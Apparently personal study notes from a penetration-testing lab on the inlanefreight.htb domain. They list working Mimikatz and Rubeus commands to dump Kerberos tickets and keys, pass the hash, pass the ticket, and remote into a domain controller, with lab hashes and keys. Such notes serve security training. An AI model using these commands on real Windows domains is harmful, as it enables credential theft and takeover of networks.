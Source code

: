 Dump tickets with mimikatz
	sekurlsa::tickets /export

Dump tickets with rubeus
	Rubeus.exe dump /nowrap

Dump all kerberos encryption keys
	sekurlsa::ekeys


Pass the hash(privilege::debug)

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
![[Pasted image 20240916001923.png]]
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
https://github.com/GhostPack/Rubeus
![[Pasted image 20240916002039.png]]


PassTheTicket
```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
![[Pasted image 20240916002837.png]]
```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
![[Pasted image 20240916002919.png]]


Powershell remoting
![[Pasted image 20240916010349.png]]
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
![[Pasted image 20240916010545.png]]

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```


![[Pasted image 20240916010714.png]]

```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

Switching to Session on Domain Controller
```cmd-session
Enter-PSSession -ComputerName DC01
```




